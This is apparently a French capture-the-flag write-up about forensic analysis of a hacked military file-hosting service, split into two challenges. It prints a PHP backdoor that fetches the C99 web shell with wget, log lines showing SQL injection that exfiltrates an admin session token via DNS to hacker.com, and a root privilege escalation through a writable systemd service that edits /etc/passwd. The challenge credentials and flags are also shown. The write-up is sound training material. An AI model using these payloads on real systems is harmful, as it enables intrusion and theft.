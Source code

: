 50 POINTS

## Description
Après une fuite d'information sur l'internet : https://pastebin.com/WfPgGMSn. Un service d'hébergement anonyme pour les militaires français s'est fait attaquer. Le système permet le téléchargement de fichiers top secret protégés par le système S.O.P.H.I.A. Le système a besoin d'un identifiant de fichier puis d'un mot de passe d'accès.

Il semblerait que la sécurité sur la base de données n'était pas suffisamment élevée. Un premier administrateur est intervenu pour réparer la vulnérabilité et supprimer la backdoor PHP. Aidez-le en détectant l'intrusion sur le serveur et essayez de comprendre ce que le hacker a exfiltré.

Enregistrez le flag avec le modèle ci-après : DGHACK{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx...}

Information: utilisez les options suivantes avec la commande ssh pour éviter les déconnexions :

`ssh <address> -p <port> -o ServerAliveInterval=30 -o ServerAliveCountMax=2`

## Solution

Le pastebin donne les infos suivantes :

```
C0M1N7-5H4D0W4D64
TCOGVVQV:W6W9D3A/60/RC=
```

Le site permet de télécharger un fichier si on connait le code du fichier et un mot de passe. C'est sûrement ce qu'il y a d'écrit sur le pastebin.

En rentrant ces information, on obtient un fichier pdf contenant un identifiant et un mot de passe pour se connecter à l'interface admin du site.

```
En date du premier trimestre de l’année 2022, le service
de la sécurité de défense et des systèmes d’information
décident de produire le nouveau système d’hébergement de
fichier anonyme pour le ministère des armées françaises.
Le projet TRES SECRET DEFENSE susnommé “SHADOW4DGA”
devient la nouvelle plateforme pour les échanges en
opération.

Pour la phase de test, les développeurs ont mis a dispo-
sition un utilisateur de type “observateur” pour avoir la
liste des fichiers hébergés. Toutefois, le mot de passe
de l’utilisateur “admin” reste confidentiel pour des
mesures de sécurité.

Veuillez utiliser les accès ci-dessous :

Username=ob4shadow
Password=5H@D0W_4_0853rV470r
```

On se connecte et on obtient une liste de fichiers existant que l'on peut télécharger. On note également une fonction pour upload des fichiers qui est réservée à l'utilisateur admin.

Ces fichiers sont des fichiers wikileaks mais il n'y a rien d'intéressant pour le challenge.

Cependant, l'URL est de la forme suivante :

`http://siteweb-shadow4dga-server-jbf9wf.inst.malicecyber.com/admin.php?limit=5&offset=0`

En augmentant la limite à 100, on trouve 2 fichiers supplémentaires : un autre fichier comique probablement inutile et un 2e fichier impossible à télécharger (peut-être une backdoor ?)


Connexion ssh avec le compte app :

`ssh app@ssh-shadow4dga-server-mqag6p.inst.malicecyber.com -p 4100 -o ServerAliveInterval=30 -o ServerAliveCountMax=2`
mdp : S0C_ShAd0W4DgA/0042


Dans le fichier admin.php, on trouve le cookie de l'administrateur qui est hardcodé :

`session = b86eb8dae7809614b94dda9116a68f4a71a25cfe9e9a0b4f53621d87110930848204f157efc3defd5afb5b8b2fb9f6f560d26dc425532f1a77bc8ae3e07fcfc6`

Le dernier fichier (CR4T0G9U) est bien un reverse shell :

```
<?php
$output=null;
$retval=null;
exec('wget https://raw.githubusercontent.com/KaizenLouie/C99Shell-PHP7/master/c99shell.php', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

Dans les logs, on trouve :

```
174.10.50.30 - - [17/Jun/2022:21:24:57 +0200] "GET /admin.php?limit=10&offset=0)UNION(SELECT%200,(select%20session%20from%20users%20where%20username='admin'),test;-- HTTP/1.1" 500 5 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:26:57 +0200] "GET /admin.php?limit=10&offset=0);CREATE%20PROCEDURE%20exf(data%20varchar(100))%20BEGIN%20SELECT%20LOAD_FILE(CONCAT('%5C%5C',data,'%5Ca'));END;select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:28:57 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf('beginexf.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:31:02 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),1,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 499 0 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:31:07 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),1,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 499 0 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:31:08 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),1,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:33:13 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),64,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 499 0 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:33:18 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),64,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 499 0 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:33:19 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),64,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
```

On comprend alors que l'attaquant a exfiltré le token de session de l'administrateur. D'après la consigne, on en déduit que le flag est :

**DGHACK{b86eb8dae7809614b94dda9116a68f4a71a25cfe9e9a0b4f53621d87110930848204f157efc3defd5afb5b8b2fb9f6f560d26dc425532f1a77bc8ae3e07fcfc6}**

------------------------
100 POINTS


## Description
Après le piratage du service d'hébergement anonyme pour les militaires français. Il semblerait que le pirate a réussi à élever ses privilèges pour installer une porte dérobée persistante pour l'utilisateur root.

Détectez l'intrusion avancée sur le serveur et essayez de comprendre ce que le pirate a exfiltré.

## Solution

On trouve ensuite une backdoor laissée par l'attaquant :

```
app@malice:/$ cat /etc/systemd/system/systembd.service
[Unit]
Description=backdoor
After=network.target

[Service]
User=root
Type=simple
ExecStart=/root/bd.sh
Restart=on-failure
RestartSec=10s

[Install]
WantedBy=multi-user.target
```

On peut modifier ce service !!!

```
app@malice:~$ cat /etc/systemd/system/systembd.service 
[Service]
User=root
Type=oneshot
RemainAfterExit=yes
ExecStart=/home/app/script.sh
app@malice:~$ cat script.sh 
#!/bin/bash
sed -i '$ d' /etc/passwd && sed -i '$ d' /etc/passwd
echo 'app:x:0:0:app,,,:/home/app:/bin/bash' >> /etc/passwd
echo 'systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin' >> /etc/passwd
```

J'ajoute app comme root

Une fois root, je trouve dans le fichier `/root/.local/share/Trash/setup.php.swp` qui est un fichier temporaire vim et qui contient le code utilisé pour setup le site.

Dedans, on trouve le mdp admin avec un commentaire qui indique que ce mdp est réutilisé pour un "vault".

```
$admin_password = hash("sha512", "m?btM0e@1Zy@uqEkYJ@eUo0A8@q@ya");
// $admin_password is the same password for the global vault
```

Un fichier `vault` est présent à la racine. La commande `file` indique qu'il s'agit d'une archive zip.

On dezip, un mot de passe est demandé. En rentrant celui obtenu précédemment, on obtient l'image `DGHACK{tres_secret_defense}.png`

Rien d'anormal au premier regard. Cependant quand on filtre pour la technique du LSB (grâce à un site comme Aprikube), on obtient le flag !!

**DGHACK{L'empire_du_milieu_c@che_les_@liens}**